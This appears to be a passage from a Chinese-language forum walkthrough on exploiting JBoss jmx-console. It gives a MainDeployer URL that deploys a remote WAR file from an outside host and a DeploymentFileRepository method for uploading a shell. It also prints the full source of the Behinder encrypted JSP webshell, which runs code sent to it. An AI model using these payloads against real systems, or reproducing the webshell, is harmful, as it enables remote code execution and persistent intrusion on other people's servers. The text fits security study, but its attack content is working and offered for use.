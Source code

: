 ![1619566650837](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-648d1bf5c20ee5a34e2d8d50dd1b7a9f9c07bdc0.png)

![1619566687530](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-15cb25c27eaf8159141daae8ce13d9ababb0079d.png)

部署地址

![1619566759737](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c3db1747e9c2544433de880f94957045c1f1b009.png)

查看框架的源代码 我们要找的是`methodIndex`为`17/19`的 deploy,填写远程war包的地址进行远程部署

![1619566920905](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a320e21a445a686872f6b69865f4193397b856ed.png)

![1619566941997](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-921ddb8727d4b91ab3e8ab38feace4b1188b4844.png)

对应的是

![1619566961392](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-80c5ed80cbe5221658748627609f7f1e0099717a.png)

部署成功后 进行点击

```php
http://192.168.175.194:8080/jmx-console/HtmlAdaptor?action=invokeOp&amp;name=jboss.system:service=MainDeployer&amp;methodIndex=17&amp;arg0=http://xxxx/1.war
```

然后冰蝎进行远程连接 就可

本地检查 部署的文件

路径：

```php
C:\jboss-6.1.0.Final\server\default\work\jboss.web\localhost
```

### 漏洞复现

定位到store的位置

```php
http://192.168.175.196:8080/jmx-console/HtmlAdaptor?action=inspectMBean&amp;name=jboss.admin:service=DeploymentFileRepository
```

通过向store的四个参数传入信息 达到上传shell

![1619580666827](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-765851417de4a7a71535f627d76bb582423c5d55.png)

```php

```

这里上传冰蝎的jsp木马

```jsp
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
```
